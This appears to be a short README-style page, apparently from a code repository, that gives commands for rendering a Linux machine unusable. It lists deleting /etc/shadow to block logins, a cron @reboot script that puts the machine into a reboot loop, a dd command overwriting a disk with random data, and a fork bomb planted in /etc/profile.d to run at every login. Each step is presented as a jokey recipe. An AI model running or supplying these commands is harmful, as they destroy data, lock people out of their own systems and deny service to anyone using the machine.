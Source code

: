 By deleting the shadow file which contains the hashes of all users passwords, we can no longer login and so we can no longer use the pc.
```
sudo rm /etc/shadow
```

I created a simple bash file which sends the restart command to the pc, and then we put the path for the bash file in the crontab file, meaning that on every pc restart, we execute the file, therefore restarting the pc in a loop.
```
touch lol.sh

nano lol.sh:

    sudo shutdown -r now

chmod +x lol.sh

sudo EDITOR=nano crontab -e:

    @reboot /root/lol.sh

```

This command copies a load of random characters to the sda drive, meaning the os is no longer usable.

```
sudo dd if=/dev/random of=/dev/sdae
```

In the last example, we create a bash file containing a fork bomb, place it in the profile.d folder which thens executes it at every user login.

```
cd /etc/profile.d/

touch lol.sh

nano lol.sh:

    :(){:|:&};:

chmod +x lol.sh
```
